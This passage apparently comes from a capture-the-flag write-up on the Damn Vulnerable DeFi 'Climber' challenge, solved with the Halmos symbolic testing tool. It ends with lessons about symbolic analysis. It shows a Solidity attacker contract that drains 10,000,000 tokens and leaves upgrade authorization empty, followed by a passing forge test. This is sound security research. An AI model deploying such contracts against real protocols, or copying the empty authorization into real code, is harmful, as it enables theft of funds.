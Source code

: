 ```solidity

    function malicious_transfer(address token, address receiver) public {
        DamnValuableToken(token).transfer(receiver, 10_000_000e18);
    }
    
    function _authorizeUpgrade(address newImplementation) internal override {}

    fallback() external payable {}
}
```
Run:
```javascript
forge test --mp test/climber/Climber.t.sol
...
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 1.63ms (438.35µs CPU time)
```
Passed!
## Conclusions
1. It is important to consider the specifics of contracts during symbolic analysis. For example, the UUPS proxy implements 2 interfaces at once, which forced us to slightly change the logic of symbolic traversal of the setup.
2. When you need to compare 2 bytes arrays symbolically - you need to be VERY CAREFUL. It is possible for two arrays to encode the same transaction but have different hashes because they have different lengths.
3. Simplifying validation can be very effective for finding bugs, or at least it can help find buggy patterns. Yes, we may encounter fake counterexamples, but if that's the price to find a real one, it may be worth paying.
4. In this challenge, we again managed to "cut" the problem and "eat it in smaller pieces": first we found the privilege escalation, then the mechanism for changing the proxy implementation having these rights. However, the privilege escalation bug is atomic, indivisible in nature. Halmos also coped with it, but had to significantly expand the number of symbolic calls in the operation and wait many hours until something was found.
5. The symbolic `fallback()` functionality for **SymbolicAttacker** turned out to be necessary to solve this challenge. This functionality should be useful for future challenges!
6. Halmos has some effective techniques for working with cryptographic functions. It is worth understanding what Halmos can and cannot do, so that you can better predict its scope of capabilities for the current test, and, on the other hand, so that the results do not seem like "magic" :D
